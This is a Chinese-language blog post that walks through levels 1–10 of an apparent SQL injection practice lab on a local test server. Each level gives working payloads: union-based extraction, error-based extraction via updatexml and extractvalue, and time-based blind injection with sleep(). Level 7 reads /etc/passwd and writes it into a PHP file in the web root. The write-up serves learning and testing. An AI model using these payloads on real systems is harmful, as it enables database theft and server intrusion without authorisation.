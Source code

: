 ```yaml
---
layout: post
title: SQL闯关1-10
date: 2018-10-30
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```

### 第一题：

 - 第一题是萌新题目。啥子都没有过滤。就可以直接注出来(我自己是到文件中显示了SQL语句)可以看的到十单引号闭合
 - 那么就直接使用 order by 猜解字段数量, 猜解字段数量的时候建议使用二分法来进行猜解
 - Payload：SELECT * FROM users WHERE id = ‘1’ order by 3 — b ‘ LIMIT 0,1
 - 猜解出来了三个字段。接着使用union 来进行确认回显的位置(需要前面查询不到数据)
 - Payload：SELECT * FROM users WHERE id='1123' union select 1,2,3 -- b' LIMIT 0,1
 - 接下来就可以使用information_schema数据库来进行查找我们需要的数据了
 - 查询处用户是谁。还有数据库的名字
 - Payload: SELECT * FROM users WHERE id='1123' union select 1,user(),database() -- b' LIMIT 0,1
 - 使用不存在的变量,然后爆出数据名字
 - Payload：SELECT * FROM users WHERE id='11' union select 1,a(),3 -- b' LIMIT 0,1 
![iReT2T.png](https://s1.ax1x.com/2018/10/30/iReT2T.png)
 - 常用的一些mysql变量：
| name  | Effect |
| ------------- | ------------- |
| VERSION()  | 显示版本信息  |
| @@VERSION()  | 显示版本信息  |
| @@GLOBAL.VERSION()  | 显示版本信息  |
| User()  | 显示当前用户  |
| @@HOSTNAME  | 显示主机名  |
| System_user()  | 显示当前用户  |
| Current_user  | 显示当前用户  |
| Session_user()  | 显示当前用户  |
| Schema()  | 显示当前数据库  |

[![iRe7xU.png](https://s1.ax1x.com/2018/10/30/iRe7xU.png)](https://imgchr.com/i/iRe7xU)
 - 利用information进行查询处数据库
 - Payload：SELECT * FROM users WHERE id='11' union select null,table_name,null from information_schema.tables limit 0,1 -- b' LIMIT 0,1
 - 第一题就说完了。如果需要拿shell的话。是需要知道绝对路径的

### 第二题：

 - 第二题是int类型的注入。直接使用：payload：SELECT * FROM users WHERE id=123 union select 1,database(),3 -- b LIMIT 0,1
 - 直接跟上一个union 就爆出来了数据库名字
[![iReqr4.png](https://s1.ax1x.com/2018/10/30/iReqr4.png)](https://imgchr.com/i/iReqr4)

### 第三题：
 - 第三题是进行括号闭合。那么只需要使用括号闭合前面的就可以进行注入，因为没有其他的过滤
Payload：http://192.168.197.129/sql/Less-3/index.php?id=123') union select 1,database(),3 — b
 - SQL语句：SELECT * FROM users WHERE id=('123') union select 1,database(),3 -- b') LIMIT 0,1
[![iReLqJ.png](https://s1.ax1x.com/2018/10/30/iReLqJ.png)](https://imgchr.com/i/iReLqJ)

### 第四题：
 - 第四题看了下SQL语句发现就是双引号加上了括号闭合
 - payload：http://192.168.197.129/sql/Less-4/index.php?id=123") union select 1,database(),3 -- b
 - SQL语句：SELECT * FROM users WHERE id=("123") union select 1,database(),3 -- b") LIMIT 0,1
![iReXZ9.png](https://s1.ax1x.com/2018/10/30/iReXZ9.png)

### 第五题：
 - 第五题是一个盲注。没有回显的那种。我使用的方法就是查询一个不存在的变量。然后就爆出了数据库名称
但是这种方法就显的有点鸡肋了。我就使用了updatexml这个函数来进行注入
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b
 - SQL语句：SELECT * FROM users WHERE id='123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b' LIMIT 0,1
![iRmPMD.png](https://s1.ax1x.com/2018/10/30/iRmPMD.png)
 - 还可以利用extractvalue来进行注入。 其中updatexml只能够返回32为数据 结合substr能够达到很好的效果
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b
 - SQL语句：SELECT * FROM users WHERE id='121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b' LIMIT 0,1
![iRmFqH.png](https://s1.ax1x.com/2018/10/30/iRmFqH.png)

### 第六题：
 - 第六题同样也就是盲注。相比于上一题也就是使用的双引号闭合
 - payload：http://192.168.197.129/sql/Less-6/index.php?id=1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- hacker
 - SQL：SELECT * FROM users WHERE id="1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b" LIMIT 0,1
![iRmEdA.png](https://s1.ax1x.com/2018/10/30/iRmEdA.png)

### 第七题：
 - 第七题是需要插入文件。可以直接使用outfile这个函数来进行注入
 - 在离表哥哪里学习到了一个骚姿势。就是配合load_file函数就可以达到把主机上的文件任意读取
 - payload：http://192.168.197.129/sql/Less-7/index.php?id=112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack
 - SQL语句：SELECT * FROM users WHERE id=(('112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack')) LIMIT 0,1
![iRmmJP.png](https://s1.ax1x.com/2018/10/30/iRmmJP.png)

### 第八题：
 - 同样是盲注。只不过用不了报错注入。因为不会提示错误信息。但是返回还是有正确的和错误的。所以还是能够使用时间注入来进行注入的
 - 我自己是使用的时间注入来进行测试的（也是能够使用盲注if）
 - Payload：http://192.168.197.129/sql/Less-8/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL：SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRmlLQ.png](https://s1.ax1x.com/2018/10/30/iRmlLQ.png)

### 第九题：
 - 这一题就必须使用时间注入了。因为我查看了源代码发现了。真和否返回的结果都是一样的。所以只能够基于时间来进行注入。也是单引号闭合,直接使用上一题的payload就可以了
 - Payload:http://192.168.197.129/sql/Less-9/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL:SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRm8ds.png](https://s1.ax1x.com/2018/10/30/iRm8ds.png)

### 第十题：
 - 这一题就是双引号闭合。同样的也是使用时间注入.
 - Payload:http://192.168.197.129/sql/Less-10/index.php?id=12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) — hcaker
 - SQL:SELECT * FROM users WHERE id="12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) -- hcaker" LIMIT 0,1
![iRmYiq.png](https://s1.ax1x.com/2018/10/30/iRmYiq.png)

#### 剩下的尽快补上。。。。。。
